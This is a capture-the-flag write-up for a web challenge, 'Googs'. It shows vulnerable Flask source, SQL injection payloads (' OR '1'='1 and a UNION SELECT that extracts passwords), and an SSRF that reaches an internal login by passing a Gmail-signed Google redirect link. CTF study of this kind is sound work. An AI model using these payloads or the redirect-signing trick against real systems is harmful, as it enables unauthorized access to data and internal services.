

# Googs 🕸️

> Category: Web Exploitation 🕸️
>
> Description: forgor 💀

## Walkthrough


We come up with a search user page, smells like there is an SQLI here. Let's try if SQLI can occur here or not by sending **'**.


Yeah, confirmed SQLI attack can be done here.

Then, let's read the program code first!
```py
@app.route('/search-user', methods=['POST'])
def search_user():
    username = request.form.get('username')
    query = f"SELECT * FROM users WHERE username = '{username}'"
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    cursor.execute(query)
    user = cursor.fetchone()
    conn.close()
    if user:
        message = f"User found: {user[1]}"
    else:
        message = "User not found"

    return render_template('index.html', message=message)
```
After some careful reading we found out that the query is not sanitize properly which can lead to SQLI attacks (as what we confirmed earlier), and if it found the result of the SQL query, it will output it in an array of position **"[1]"** or if there is a table, it will output it in the second column like shown below.

|    [0]     |       [1]         |    [2]    |
| :--------: | :---------------: | :-------: |
| Not Shown  | SQL Query Result  | Not Shown |

This means that the result only can be shown/viewed in the second column which will helps us when doing the SQLI Union based attacks.

We also found out that there is a **"/login"** page.


So, we need to perform the SQLI attacks to get the credentials before we able to login to the page.

After able to login to the page, it will proceed to the **"/dashboard"** page which will shows us the function to fetch any content via URL, which needs to be appended after the google URL.
```py
@app.route('/fetch', methods=['GET'])
def fetch():
    url = request.args.get('url')
    if not url:
        return jsonify({"error": "Please provide a URL with ?url=<target_url>"}), 400

    if not (url.startswith('https://google.com/url?q=')):
        return jsonify({"error": "Nice one, but not today"}), 400

    try:
        response = requests.get(url, timeout=5)
        content = response.text
    except requests.exceptions.RequestException as e:
        content = "Request failed"

    return render_template('dashboard.html', url=url, content=content)
```

We also found out that there is **"/internal-login"** page, but requires **"username=admin"** and **"password=S3cr3tP@ssw0rd"** to get the flag.
```py
@login_app.route('/internal-login', methods=['GET'])
def login():
    username = request.args.get('username')
    password = request.args.get('password')
    if username == "admin" and password == "S3cr3tP@ssw0rd":
        return jsonify({"flag": flag})
    else:
        return jsonify({"error": "Invalid credential"}), 403
```

However, in order to get to the **"/internal-login"** page, we need to access it with the **"login_app host"** and **"port"**.
```py
def run_fetch_app():
    app.run(host='0.0.0.0', port=5000)

def run_login_app():
    login_app.run(host='127.0.0.1', port=1337)
```

This means that this challenge requires us to conduct **SQLI** to get the login credentials, then conduct an **SSRF** attacks to get the flag.

## Solution

Let's try the basic SQLI first shall we.
```sql
' OR '1'='1
```

What will the query becomes:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1'
```
The query will search from table users for the username, and the **'1'='1'** will return **"TRUE"** and complete the query (Retrieve all username found in the table users).


We get an output which shows us the username of the user inside the database.

So now, how about the password of the user?

Let's read first how the database users table is initialized first.
```py
def init_db():
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    cursor.execute('''
        CREATE TABLE IF NOT EXISTS users (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            username TEXT NOT NULL,
            password TEXT NOT NULL
        )
    ''')
```
So we just need to retrieve the password column which corresponds to the user's username.

Based on our recon info, we can use SQLI Union attacks to get the user's password.
```sql
' UNION SELECT 1, password, 3 FROM users WHERE username='fake_username' --   
```

What will the query becomes:
```sql
SELECT * FROM users WHERE username = '' UNION SELECT 1, password, 3 FROM users WHERE username='fake_username' --'
```
The query will return the result of the SQL UNION statement which is the password for the user based on its username.


So now, let's login to the page using the credentials.


After login to the page, we need to conduct the SSRF attacks which will forge a request so that the request is coming from the server itself.

The common SSRF form will looks like:
```bash
http://<chall-ip>:<chall-port>/fetch?q=http://127.0.0.1:1337/internal-login?username=admin&password=S3cr3tP@ssw0rd
```

But for this challenge, we need to use the google URL to conduct the SSRF.
```bash
https://google.com/fetch?q=http://127.0.0.1:1337/internal-login?username=admin&password=S3cr3tP@ssw0rd
```

This will fails because of the google will shows the redirect notice as it cannot process the request directly due to it is an unknown link.


So it is not possible to conduct the SSRF attack unless we make the link not an unknown link.

But, how?

We can utilise either google docs or gmail to sign the link for us.

Simply copy the internal link then send it to ourselves.


Then, inspect the gmail to get the signed link.


```bash
https://www.google.com/url?q=http://localhost:1337/internal-login?username%3Dadmin%26password%3DS3cr3tP@ssw0rd&source=gmail&ust=1751271388881000&usg=AOvVaw22_rZv9_3GapClLPDvEa_y
```

Nice, now let's try with this link. Make sure to remove the **"www."** so that it will not get any errors.



## 🏳️Flag:
>solved after the competition
>
>